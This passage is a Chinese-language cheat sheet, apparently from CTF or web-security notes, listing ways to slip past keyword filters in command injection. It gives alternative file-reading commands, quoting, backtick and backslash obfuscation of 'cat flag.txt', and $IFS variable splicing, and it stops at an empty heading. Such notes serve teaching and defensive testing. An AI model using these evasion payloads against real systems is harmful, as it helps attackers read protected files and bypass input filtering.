 ### 绕过方法

#### 1.过滤关键字

**替代法**

```text
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
rev:倒过来看
file -f:报错出具体内容
bash -v:报错出具体内容
sh /flag 2>%261 //报错出文件内容
```

**使用特殊符号**

单引号：单引号所见即所得，直接显示单引号里的内容。即单引号里的任何字符都会原样输出，单引号字符串中的变量是无效的。

双引号：先把变量解析之后，再输出。上面的例子中，使用双引号的时候，所见非所得，系统会先计算 $TEST 的值，然后再 echo 出来。

反引号：用于命令替换，即先执行反引号中的语句，再把结果加入到原命令中。

PS：只要引号、双引号闭合就可以运行,反引号除外

```text
单引号：
c''at flag.txt
c'a't 'f'lag.txt
反引号：
c``at flag.txt
``c``a``t ``flag.txt
反斜杠：
ca\t flag.txt
\c\a\t \f\lag.txt
双引号：
c""at flag.txt
"c"at f""lag.txt
```

**拼接法**

```text
a=fl;b=ag;cat$IFS$a$b
```

**空变量绕过**
